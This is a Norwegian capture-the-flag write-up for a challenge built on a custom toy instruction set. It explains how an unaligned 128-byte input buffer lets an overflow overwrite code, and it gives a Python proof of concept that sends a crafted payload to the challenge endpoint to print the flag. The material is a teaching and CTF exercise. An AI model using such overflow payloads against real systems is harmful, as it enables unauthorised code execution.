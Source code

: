 ```javascript
.DATA 0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
forbi:
TUR les_input
TUR tell_pingviner
TUR skriv_svar
fin:
STOPP

les_input:
FINN input_buffer
les_neste_input:
LES r2
; ULK r2, r11 ; dette funker ikke...
LIK r2, r10
BHOPP lest_ferdig
LAGR r2
PLUSS r0, r11
HOPP les_neste_input
.......
```

etterfulgt av noe kode som teller antall unicode-pingviner i inputen og skriver de ut. Flagget blir automatisk plassert som et DATA-område inn i koden, men aldri aksessert. Det er også en funksjon `print` som heller aldri kalles.

`les_input` leser til den oppdager en nullbyte, og så returnerer den og begynner å eksekvere `tell_pingviner`. Problemet her, er `input_buffer`-segmentet ikke er aligned. Det betyr at startadressen til bufferet ikke har 0 som laveste 8 bits. I tillegg er bufferet bare 128 bytes langt. Dette er to ganske kritiske feil. Når vi da leser inn input, så vil `r0` starte på f.eks. `50` og så lese inn 128 bokstaver. På den 129. bokstaven vil vi begynne å skrive utenfor `input_buffer`-segmentet og overskrive koden som er der.

(Etter ytterligere bokstaver, så vil r0 kunne wrappe helt rundt og begynne å skrive fra 0 igjen, men her vil det overskrive flagget, så det er mindre interessant.)

Det vi kan gjøre da, er å skrive over koden som kaller `TUR tell_pingviner`, som det er meningen at skal kjøre like etter at inputen er ferdig lest inn. Hvis vi erstatter denne med ekvivalenten til `FINN flagg` og `TUR print` så vil flagget skrives ut. Dessverre er `FINN` og `TUR` funksjoner som evalueres under montering/kompilering, så vi må gjette på adressene. Start-adressen til flagget er uavhengig av lengden på flagget, men adressen til `print`-funksjonen vil ligge rett bak flagget og derfor være forskjøvet. Dette kan brute-forces til vi får output.



```python
from requests import session
from base64 import b64encode
from urllib.parse import quote

URL  = "https://pingvin.spst.no/.netlify/functions/count?input="
s = session()

# Del 1   offset     SETT r0, 6 (flagg)  TUR print        Stopp å lese input
payload = b"A"*130 + bytes([1, 6]) + bytes([122, 2]) + bytes([0])
r = s.get(URL+quote(b64encode(payload).decode()))
print(''.join(map(chr,r.json()['svar'])))
```
